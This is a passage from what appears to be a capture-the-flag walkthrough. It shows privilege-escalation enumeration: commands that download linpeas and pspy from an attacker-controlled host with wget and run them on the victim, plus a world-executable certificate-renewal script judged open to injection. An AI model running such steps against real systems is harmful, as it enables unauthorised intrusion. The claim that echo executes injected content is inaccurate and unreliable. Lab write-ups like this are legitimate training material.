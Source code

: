 - After manual enumeration it was deemed necessary to grab `linpeas.sh`.
- Might as well grab `pspy64` while you're at it to monitor processes.
- `Host`

```bash
python -m http.server
```

- `Victim`

```bash
cd /tmp
wget http://10.10.16.23:8000/linpeas.sh
wget http://10.10.16.23:8000/pspy64
chmod +x linpeas.sh pspy64
```

- In the `/opt` directory you will find a file named `renew_cert.sh`
- You can see that the script can be executed by anyone.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125024249.png)

- This script can be vulnerable to injection attacks if the user input is not properly sanitized. The script takes a single argument, a certificate file, and performs various operations on it, such as checking its expiration date, parsing its subject field, and generating a new certificate.
- For example, if an attacker is able to pass a malicious file path to the script, it could potentially execute code from that file, or if an attacker can manipulate the subject field of the certificate, it could include malicious code that would be executed when the script parses the subject field.
- Additionally, the script is using echo command to output the subject field of the certificate and to generate the new certificate. In this case, if the subject field contains malicious code, it will be executed when the script runs the echo command.

```bash
cat renew_cert.sh 
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')
```